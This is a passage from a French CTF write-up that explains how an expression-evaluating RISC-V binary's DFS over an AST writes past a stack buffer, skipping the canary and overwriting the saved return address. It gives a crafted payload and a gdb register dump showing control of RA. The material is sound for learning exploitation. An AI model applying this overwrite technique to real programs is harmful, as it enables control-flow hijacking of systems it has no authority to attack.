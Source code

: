 ```goat
         ·      \           |
        ·        \          |
       ·          0         |
      /                     +----> Ces nodes ne seront pas explorées par le DFS
   .-.                      |      car completed[16] = results[0] = 1.
  | 1 |                     |      Le canary n'est donc pas écrasé, seulement
   '-'                      |      La sauvegarde de S0, celle de RA et la valeur
  /   \                     |      qui suit sur la stack.
 /     \                    |
0       0   ---------------'
```

On pourra overwrite la sauvegarde de RA, ainsi que les autres positions mémoires de la stackframe appellante.
Pour comprendre pourquoi le canary n'est pas modifié, il faut se pencher attentivement sur comment le DFS va parcourir notre arbre:

1. Il explore la node d'id 19, on voit dans la fonction dispatch qu'il prend d'abord la node de gauche.
2. Il explore ensuite la node d'id 0 qui va mettre 1 * 1 = 1 à l'adresse `&results[0]` donc `completed[16]`.
3. Il prend ensuite la node 18, puis la 17, puis la 16 et retourne immédiatement étant donné que la node est notée comme déjà complétée à cause du fait que `completed[16]` vaille maitnenant 1.
4. Le DFS remonte donc à la node 17 et écrit donc à `results[17]`, `results[16] (le canary) * 0`. results[17] vaut maintenant 0.
5. Il remonte ensuite à la node 18 et écrit à `results[18] (la save de RA)`, `results[17] + NEW_RA`.
6. Il remonte ensuite à la node 19 pour y écrire mais elle ne nous est d'aucune utilité.


Donc si l'on teste le payload suivant qui devrait produire le même AST:
```
(1*1)(0(0(0(0(0(0(0(0(0(0(0(0(0(0(0(0(0(0)))))))))))))))))+4702111234474983745)`
```
et que l'on break dans gdb-multiarch à la fin de la fonction `calc`, voilà ce que l'on peut voir:

```c
 RA   0x4141414141414141 ('AAAAAAAA')
 GP   0x16800 ◂— 0x0
 TP   0x4000953da0 —▸ 0x4000945228 (_nl_global_locale) —▸ 0x4000941dd0 (_nl_C_LC_CTYPE) —▸ 0x400092bde8 (_nl_C_name) ◂— 0x43 /* 'C' */                                                                        
 T0   0x400081e290 ◂— 0x0
 T1   0x17470 ◂— 0x17
 T2   0x3
 S0   0x0
 S1   0x1
 A0   0x0
 A1   0x4000800348 ◂— 0x1010101
 A2   0x4000800338 ◂— 0x1
 A3   0x0
 A4   0x0
 A5   0x0
 A6   0x174d0 ◂— 0x17
 A7   0x9ef4f319ba96a051
 S2   0x0
 S3   0x15e00 (__do_global_dtors_aux_fini_array_entry) —▸ 0x10f24 (__do_global_dtors_aux) ◂— c.addi sp, -0x10                                                                                                 
 S4   0x14260 (main) ◂— c.addi16sp sp, -0xd0
 S5   0x4000800688 —▸ 0x4000800858 ◂— '_=/home/challenger/qemu/build/qemu-riscv64'
 S6   0x15e00 (__do_global_dtors_aux_fini_array_entry) —▸ 0x10f24 (__do_global_dtors_aux) ◂— c.addi sp, -0x10                                                                                                 
 S7   0x400081cd78 (_rtld_local_ro) ◂— 0x0
 S8   0x400081d030 (_rtld_local) —▸ 0x400081e290 ◂— 0x0
```